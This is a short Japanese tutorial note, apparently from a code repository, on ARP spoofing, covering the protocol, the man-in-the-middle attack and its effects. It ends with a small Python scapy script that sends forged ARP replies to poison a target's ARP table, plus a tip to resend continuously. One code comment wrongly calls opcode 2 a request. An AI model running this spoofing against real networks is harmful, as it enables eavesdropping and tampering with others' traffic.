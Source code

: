 ### ArpSpoofingについて

#### おさらい
ARPはイーサネットにおいてIPアドレスからMACアドレスを取得するためのプロトコル。逆はRARP。

IPアドレス宛にパケットを送信したい場合に、IPアドレスと機器を紐づけるためにARP要求をブロードキャストで発信し、対応する機器がユニキャストで答えることでIPアドレスと機器が結び付く。

イーサネット：ここではローカルエリアネットワーク(LAN)

#### ARP Spoofingとは
中間者攻撃で用いられる方法の一種。同一ネットワーク上で攻撃対象のマシンとルータの間に割り込む方法。  

対象のARPテーブルを書き換えるために、攻撃者がルータのIPアドレスと自身のMACアドレスを使用したパケットを対象に送信することで、対象は攻撃者のマシンをルータだと誤認する。  

MACアドレスを書き換える攻撃なので同一ネットワーク上で成立する。

#### 問題点
* プロトコルがUDP / ステートレス
* 本人の確認が出来ない

#### 影響
* 通信の盗聴
* 通信の妨害
* 通信の改ざん

#### コーディング
簡単なパケットを作成して送信するのにすごく便利なpythonで書くことにする。

```python
from scapy.all import *
import sys

target_ip = sys.argv[1] # 送信先IPアドレス
target_mac = sys.argv[2] # 送信先MACアドレス
source_ip = sys.argv[3] # 送信元IPアドレス

# ARP要求パケット作成
frame = Ether(dst=target_mac)/ARP()
frame.op = 2 # 1 ARP要求 / 2 ARPリクエスト
frame.psrc = source_ip # 送信元
frame.pdst = target_ip # 送信先

# 送信
sendp(frame)
```

実環境で使用する場合は継続的にパケットを送信しないと正しい組み合わせに戻ってしまうので注意が必要

#### 参考にしたサイト
* [https://qiita.com/warito2323/items/bd3327073c0ca9205797]  
* [https://qiita.com/ryoma30/items/298c219addbb96e150e1]  
* [https://ja.wikipedia.org/wiki/ARP%E3%82%B9%E3%83%97%E3%83%BC%E3%83%95%E3%82%A3%E3%83%B3%E3%82%B0]  
* [https://scapy.readthedocs.io/en/latest/]  

